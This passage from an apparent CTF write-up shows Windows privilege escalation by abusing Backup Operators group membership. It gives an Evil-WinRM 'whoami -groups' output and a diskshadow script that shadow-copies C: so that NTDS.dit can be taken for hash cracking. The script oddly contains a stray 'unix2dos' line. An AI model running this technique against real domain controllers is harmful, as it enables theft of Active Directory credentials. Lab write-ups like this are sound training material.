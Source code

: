 
## PRIVILEGE ESCALATION
---
As usual in this type of CTF, we are part of a group that may be vulnerable to privilege escalation. In this case, we are part of the **Backup Operators** group.

The **Backup Operators** group is a built-in group in Windows that grants its members the ability to back up and restore files on the system, even if they do not have direct access to those files. Members of this group have elevated privileges, but they are often overlooked when it comes to privilege escalation, as they can access sensitive files such as the **NTDS.dit** file, which contains the Active Directory database, including user credentials and hashes.

Our goal is to leverage our membership in the **Backup Operators** group to try to copy the **NTDS.dit** file. Once we have a copy of the file, we can extract and crack the hashes stored inside it to potentially gain access to other user accounts or escalate our privileges further.

````powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami -groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
````

We created a file instructing **diskshadow** to create a copy of the **C:** drive onto the **Z:** drive, using the alias **whare**, and saved it with the **whare.dsh** extension. This extension helps the system determine which application should handle the file. However, different programs may use the **DSH** file extension for different types of data. We then compiled the file into **DOS** format for compatibility with the Windows host.

````bash
❯ cat whare.dsh
───────┬──────────────────────────────────────────────────────────────────────────────────
       │ File: whare.dsh
───────┼──────────────────────────────────────────────────────────────────────────────────
   1   │ set context persistent nowriters
   2   │ add volume c: alias whare
   3   │ create
   4   │ expose %whare% z:
   5   │ unix2dos whare.dsh
───────┴──────────────────────────────────────────────────────────────────────────────────
❯ unix2dos whare.dsh
unix2dos: converting file whare.dsh to DOS format...
````